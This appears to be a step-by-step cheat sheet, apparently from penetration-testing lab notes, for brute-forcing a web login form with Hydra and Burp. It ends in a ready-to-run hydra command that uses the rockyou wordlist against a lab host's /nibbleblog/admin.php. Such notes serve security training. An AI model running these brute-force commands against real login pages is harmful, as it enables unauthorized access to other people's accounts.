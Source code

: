 ### Hydra: Brute Forcing Web Login Page

---------------------------------------------------------------

1. Intercept a `login request` from **Burp**

---------------------------------------------------------------

2. Copy the **body of the REQUEST** that holds _login stuff_
  + Example: `username=madeup&password=cantguessthis`

---------------------------------------------------------------

3. Replace the _field_ you fill in with `hydara variables`
  - hydra denotes variables with `^` and _ALL CAP NAMES_
   * Like so: `^USER^` / `^PASS^`
  - Example: `username=^USER^&password=^PASS^`

---------------------------------------------------------------

4. Add a colon (`:`) at the end of the _result from step 3_
  + The `:` is a _seporator_ for `hydra`

---------------------------------------------------------------

5. Look at the **body of the RESPONSE** of a _failed login_
   and look for something that identifies _this response_
   as a _failed login_ attempt
  - Example: `Incorrect username`

---------------------------------------------------------------

6. Store the _part of login fail_ from the **response** to 
   the end of the _result from step 4_
  - Example: `username=^USER^&password=^PASS^:Incorrect username`

---------------------------------------------------------------

7. Get the _subdirectory_ of the `URL` of the login page
  + Append a `:` to it
   - Example: `/nibbleblog/admin.php:`
  + Prepend this to the _result of step 6_
   - Example: `/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect username`
  + Have this new string in quotes
   - Example: `"/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect username"`

---------------------------------------------------------------

8. Get a _rockyou text file_
  + Smaller Version:
     `cp /usr/share/wordlists/SecLists/Passwords/rockyou-50.txt .`
  + Full Size
    `cp /usr/share/wordlists/SecLists/Passwords/rockyou.txt .`

---------------------------------------------------------------

9. Craft the final _hydra command_ from the results of
   _step 7 & 8_
 - Example: `hydra -l admin -P rockyou-50.txt 10.10.10.75 http-post-form "/nibbleblog/admin.php:username=^USER^&password=^PASS^:Incorrect username"`
  * This example is assuming the _target username_ is `admin`
  * Thus the `-l admin`

---------------------------------------------------------------

